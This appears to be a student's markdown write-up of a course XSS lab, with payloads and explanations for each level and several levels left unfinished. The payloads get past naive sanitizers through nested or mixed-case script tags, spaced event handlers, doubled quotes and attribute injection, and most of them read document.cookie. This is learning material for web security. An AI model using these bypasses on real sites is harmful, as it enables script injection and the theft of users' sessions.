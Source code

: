 # 0. Welcome

N/A

# 1. A Truly Disruptive Startup (3 points)

```js
<script>console.log(document.cookie)</script>
```

# 2. No Script Allowed (3 points)

Non recursive stripping of ```<script>``` tag allows us to bypass filter by embedding ```script``` within ```script``` like so: ```<scriscriptpt>```

```
<scriscriptpt>console.log(document.cookie)</script>
```

# 3. One More Time, Like You Mean It (3 points)

Same solution as above, except this time the regex will catch all instances of the word ```script```, so we need to hide ```script``` within the end tag as well.

```
<scriscriptpt>console.log(document.cookie)</scriscriptpt>
```

# 4. An Open-and-Shut Case (3 points)

This time regex is used to recursively remove the word ```script``` but the ```i``` flag is not set, so we can just do ```<SCRIPT>``` instead of ```<script>```.

```js
<SCRIPT>console.log(document.cookie)</SCRIPT>
```

# 5. Time to Mix Things Up (3 points)

This time both ```script``` and ```SCRIPT``` are blacklisted so we can use ```ScRiPt``` instead to bypass the filter.

```js
<ScRiPt>console.log(document.cookie)</ScRiPt>
```

# 6. A Picture is Worth a Thousand Words (3 points)

```html
<img src="https://web.stanford.edu/class/cs253/stanford.svg" onload=console.log(document.cookie)>
```

# 7. Between a Rock And a Hard Place (3 points)

Since this regex pattern searches for ```onerror=``` or ```onload=```, we can simply use ```onerror =``` or ```onload =``` instead.

```
/script|onerror=|onload=/gi
```

```html
<img onload =console.log(document.cookie) src="https://web.stanford.edu/class/cs253/stanford.svg">1</img>
```

# 8. Angle of Death (6 points)

Attack input:

```
<<script>>console.log(document.cookie)</script>
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // What I assume the source code regex pattern looks like:
  q = q.replace(/<([^>]*)>/, '')

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 9. All in a Day's Work

N/A

# 10. In the Wrong Place at the Wrong Time (3 points)

Opening angle is now blocked, so new payload will have to be injected into an HTML attribute.

If we search for ```test' hello``` we'll see the output is still ```test' hello```. But ```test" hello``` outputs ```test``` so we know ```"``` is the string terminator. Our new payload is:

```
test" onload=console.log(document.cookie)
```

# 11. You Can't Win 'em All (6 points)

Attack input:

The ```"``` character has been filtered, but only once. So the new payload is:

```
test"" onload=console.log(document.cookie)
```

# 12. When All is Said and Done (6 points)

Attack input:

Similar attack but this time the string is terminated with ```'```.

```
test' onload=console.log(document.cookie)
```

# 13. When You Want a Job Done Right

N/A

# 14. Here Today and Gone Tomorrow (3 points)

Attack URL:

This time we inject into the ```<body>``` tag with the following payload:

```
localhost:4140/search?q=test&lang=en onload=alert(1)
```

# 15. The Early Bird Catches the Worm (3 points)

```
TODO: Replace this with your attack input.
```

# 16. Tying Up Loose Ends (3 points)

```
TODO: Replace this with your attack input.
```

# 17. Take a Page Out of Their Book (6 points)

Attack code:

```js
// TODO: Replace this with your solution.
```

# 18. Congrats

N/A

# Survey responses (3 points)

Write your survey responses in SURVEY.md!
